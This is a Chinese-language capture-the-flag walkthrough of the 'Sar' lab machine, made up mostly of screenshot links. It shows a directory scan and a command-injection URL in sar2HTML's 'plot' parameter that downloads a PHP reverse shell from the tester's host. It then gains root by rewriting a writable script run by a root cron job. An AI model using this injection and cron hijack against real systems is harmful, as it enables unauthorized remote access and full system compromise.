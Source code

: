 # sar

只有80一个端口

![image-20200612221835140](assets/sar.assets/image-20200612221835140.png)

```bash
sudo dirsearch -u http://192.168.1.116/ -e php,txt,apsx,asp,html -w /usr/share/wordlists/dirb/big.txt -r
```

![image-20200612221957180](assets/sar.assets/image-20200612221957180.png)

![image-20200612222019820](assets/sar.assets/image-20200612222019820.png)



![image-20200612222250185](assets/sar.assets/image-20200612222250185.png)





![image-20200612222755430](assets/sar.assets/image-20200612222755430.png)



![image-20200612222839388](assets/sar.assets/image-20200612222839388.png)



![image-20200612223100589](assets/sar.assets/image-20200612223100589.png)



![image-20200612223215533](assets/sar.assets/image-20200612223215533.png)

确认wget

![image-20200612223600846](assets/sar.assets/image-20200612223600846.png)

制作php rshell

![image-20200612223417226](assets/sar.assets/image-20200612223417226.png)

假设本地服务，通过wget下载到目录

```bash
http://192.168.1.116/sar2HTML/index.php?plot=;wget http://192.168.1.108:8080/php-reverse-shell.php
```

![image-20200612223932578](assets/sar.assets/image-20200612223932578.png)



![image-20200612224134448](assets/sar.assets/image-20200612224134448.png)



使用ls也可以认证上传成功

![image-20200612224030807](assets/sar.assets/image-20200612224030807.png)



![image-20200612224235766](assets/sar.assets/image-20200612224235766.png)



![image-20200612225433054](assets/sar.assets/image-20200612225433054.png)

计划任务中有一个脚本是以root执行的。`/var/www/html/finally.sh`

![image-20200612225349418](assets/sar.assets/image-20200612225349418.png)



![image-20200612230156082](assets/sar.assets/image-20200612230156082.png)

不可写，查看一下内容，发现关联的write.sh是可写的。

![image-20200612230312349](assets/sar.assets/image-20200612230312349.png)

由于vi回显示不好，直接本地复制文本，目标上vi write.sh `dd`删除行，然后粘帖进去文本保存

![image-20200612233521205](assets/sar.assets/image-20200612233521205.png)

任务5分钟执行一次。监听等待得到root

![image-20200612233623038](assets/sar.assets/image-20200612233623038.png)

